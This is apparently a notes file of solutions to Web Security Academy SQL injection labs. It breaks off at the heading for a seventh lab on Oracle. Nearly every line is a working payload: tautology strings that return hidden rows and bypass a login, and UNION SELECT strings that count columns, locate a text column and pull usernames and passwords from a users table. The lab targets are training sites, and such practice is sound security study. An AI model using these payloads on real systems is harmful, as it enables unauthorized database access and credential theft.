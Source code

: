 # 1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

https://ac691f8f1f1ade0ec09556480096009a.web-security-academy.net/filter?category=Food+&+Drink' or '1'='1


# 2 SQL injection vulnerability allowing login bypass

uname -> administrator
pass -> pass' or '1'='1


# 3 SQL injection UNION attack, determining the number of columns returned by the query

https://ac101f141ffe5241c02925c900cd00fb.web-security-academy.net/filter?category=Corporate+gifts' union select null,null,null--

# 4 SQL injection UNION attack, finding a column containing text

https://acc41f9a1e1d0567c0443b83007e0005.web-security-academy.net/filter?category=Corporate+gifts' union select null,'x3tSLc',null--

# 5 SQL injection UNION attack, retrieving data from other tables

https://acd91f8d1ed49ccdc0f3100900ea0060.web-security-academy.net/filter?category=Accessories' union select username,password from users--

# 6 SQL injection UNION attack, retrieving multiple values in a single column

https://acab1f321e54abdec0327ab800b70008.web-security-academy.net/filter?category=Corporate+gifts' union select null,username || '~' || password FROM users----

# 7 SQL injection attack, querying the database type and version on Oracle